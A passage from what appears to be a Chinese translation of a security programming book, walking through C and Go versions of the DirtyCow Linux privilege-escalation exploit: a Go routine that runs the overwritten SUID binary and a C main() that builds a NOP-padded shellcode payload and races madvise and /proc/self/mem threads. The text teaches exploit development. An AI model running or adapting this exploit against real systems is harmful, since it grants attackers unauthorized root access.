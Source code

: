 ```

    attr := os.ProcAttr {
        Files: []*os.File{os.Stdin, os.Stdout, os.Stderr},
    }
    proc, err := os.StartProcess(SuidBinary, nil, &attr) ❸
    if err !=nil {
        log.Fatal(err)
    }
    proc.Wait()
    os.Exit(0)
}
```

*列表 9-11：Go 语言中的* waitForWrite() *函数*

在这两种情况下，代码都定义了一个无限循环，用来监控 SUID 二进制文件的变化❶。C 语言版本使用`memcmp()`检查 shellcode 是否已经写入目标，而 Go 代码使用`bytes.Compare()`。当 shellcode 出现时，你就知道漏洞利用成功，文件已被覆盖。然后，你会跳出无限循环，并通知运行中的线程可以停止了❷。与竞态条件代码一样，Go 语言版本通过通道实现这一点，而 C 语言版本使用整数。最后，你执行的可能是函数中最精彩的部分：现在已经包含恶意代码的 SUID 目标文件❸。Go 语言版本略显冗长，因为你需要传递与 stdin、stdout 和 stderr 对应的属性：分别是指向输入文件、输出文件和错误文件描述符的文件指针。

现在让我们来看一下`main()`函数，它调用了执行这个漏洞利用所需的前述函数。列表 9-12 显示了 C 语言版本，列表 9-13 显示了 Go 语言版本。

```
int main(int argc,char *argv[]) {
    char *backup;

    printf("DirtyCow root privilege escalation\n");
    printf("Backing up %s.. to /tmp/bak\n", suid_binary);

 ❶ asprintf(&backup, "cp %s /tmp/bak", suid_binary);
    system(backup);

 ❷ f = open(suid_binary,O_RDONLY);
    fstat(f,&st);

    printf("Size of binary: %d\n", st.st_size);

 ❸ char payload[st.st_size];
    memset(payload, 0x90, st.st_size);
    memcpy(payload, sc, sc_len+1);

 ❹ map = mmap(NULL,st.st_size,PROT_READ,MAP_PRIVATE,f,0);

    printf("Racing, this may take a while..\n");

 ❺ pthread_create(&pth1, NULL, &madviseThread, suid_binary);
    pthread_create(&pth2, NULL, &procselfmemThread, payload);
    pthread_create(&pth3, NULL, &waitForWrite, NULL);

    pthread_join(pth3, NULL);

    return 0;
}
```
